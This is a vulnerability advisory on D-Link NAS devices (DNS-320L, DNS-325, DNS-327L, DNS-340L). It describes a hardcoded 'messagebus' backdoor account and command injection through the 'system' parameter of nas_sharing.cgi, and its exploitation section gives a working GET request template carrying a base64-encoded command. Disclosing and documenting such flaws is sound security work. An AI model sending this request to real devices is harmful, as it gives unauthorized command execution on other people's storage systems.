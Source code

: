 # Command Injection and Backdoor Account in D-Link NAS Devices

## **Vulnerability Summary:**

The described vulnerability affects multiple D-Link NAS devices, including models DNS-340L, DNS-320L, DNS-327L, and DNS-325, among others. The vulnerability lies within the **`nas_sharing.cgi`** uri, which is vulnerable due to two main issues: a backdoor facilitated by hardcoded credentials, and a command injection vulnerability via the **`system`** parameter. This exploitation could lead to arbitrary command execution on the affected D-Link NAS devices, granting attackers potential access to sensitive information, system configuration alteration, or denial of service, by specifying a command,Affecting over 92,000 devices on the Internet.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3f67e7ef-2ba8-446a-9721-f87d0baa1695/3eecbe30-4ae7-4671-869e-c30e18327c98/Untitled.png)

## Corresponding CWE

CWE-77 (Command Injection) and CWE-798 (Use of Hard-coded Credentials).

## Affected Devices:

- DNS-320L Version 1.11, Version 1.03.0904.2013, Version 1.01.0702.2013
- DNS-325 Version 1.01
- DNS-327L Version 1.09, Version 1.00.0409.2013
- DNS-340L Version 1.08

## Vulnerability Details:

The vulnerability exists in the `nas_sharing.cgi` CGI script, which leads to:

1. **Backdoor through Username and Password Exposure**: The request includes parameters for a username (**`user=messagebus`**) and an empty password field (**`passwd=`**). This indicates a backdoor allowing unauthorized access without proper authentication.
2. **Command Injection through the System Parameter**: The **`system`** parameter within the request carries a base64 encoded value that, when decoded, appears to be a command.

## Exploitation:

Craft Malicious HTTP Request: Prepare an HTTP GET request targeting the `/cgi-bin/nas_sharing.cgi` endpoint.

```
GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=<BASE64_ENCODED_COMMAND_TO_BE_EXECUTED>
```

## **Actual Result**

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3f67e7ef-2ba8-446a-9721-f87d0baa1695/cd68ff74-d806-4241-982c-8ae75d3962d4/Untitled.jpeg)

## Impact:

Successful exploitation of this vulnerability could allow an attacker to execute arbitrary commands on the system, potentially leading to unauthorized access to sensitive information, modification of system configurations, or denial of service conditions.

## **Fix Recommendation:**

- Apply available patches and updates from the device manufacturer.

